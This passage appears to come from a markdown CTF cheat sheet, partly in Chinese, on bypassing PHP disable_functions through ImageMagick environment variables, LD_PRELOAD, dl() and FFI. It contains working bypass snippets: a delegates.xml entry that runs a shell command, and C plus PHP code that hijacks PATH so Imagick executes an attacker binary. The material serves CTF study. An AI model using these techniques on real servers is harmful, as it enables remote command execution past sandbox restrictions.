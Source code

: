 - ImageMagick
    - [Command Injection](https://www.exploit-db.com/exploits/39766)
    - LD_PRELOAD + ghostscript:
        - Imagemagick 會用 ghostscript去parse `eps`
        - [Link](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#solution-2:-bypass-disable_function-with-ld_preload)
    - LD_PRELOAD + ffpmeg
        - [Link](https://hxp.io/blog/53/0CTF-Quals-2019-Wallbreaker-easy-writeup/)
    - MAGICK_CODER_MODULE_PATH
        - > it can permits the user to arbitrarily extend the image formats supported by ImageMagick by adding loadable coder modules from an preferred location rather than copying them into the ImageMagick installation directory
        - [Document](https://www.imagemagick.org/script/resources.php#Environment%20Variables)
        - [Link](https://github.com/m0xiaoxi/CTF_Web_docker/tree/master/TCTF2019/Wallbreaker_Easy)
    - MAGICK_CONFIGURE_PATH
        - `delegates.xml` 定義處理各種文件的規則
        - 可以用 putenv 寫掉設定檔路徑
        - [Link](https://xz.aliyun.com/t/4688#toc-14)

        ```xml
        <delegatemap>
        <delegate decode="ps:alpha" command="sh -c &quot;/readflag > /tmp/output&quot;"/>
        </delegatemap>
        ```

    - 蓋`PATH` + ghostscript:
        - 造一個執行檔 gs

        ```cpp
        #include <stdlib.h>
        #include <string.h>
        int main() {
            unsetenv("PATH");
            const char* cmd = getenv("CMD");
            system(cmd);
            return 0;
        }
        ```

        ```php
        putenv('PATH=/tmp/mydir');
        putenv('CMD=/readflag > /tmp/mydir/output');
        chmod('/tmp/mydir/gs','0777');
        $img = new Imagick('/tmp/mydir/1.ept');
        ```
- dl()
    - 載入 module
    - `dl("rce.so")`
    - This function was removed from most SAPIs in PHP 5.3.0, and was removed from PHP-FPM in PHP 7.0.0.

- FFI
    - PHP 7.4 feature
    - preloading + ffi
    - e.g. [RCTF 2019 - nextphp](https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2019/nextphp)
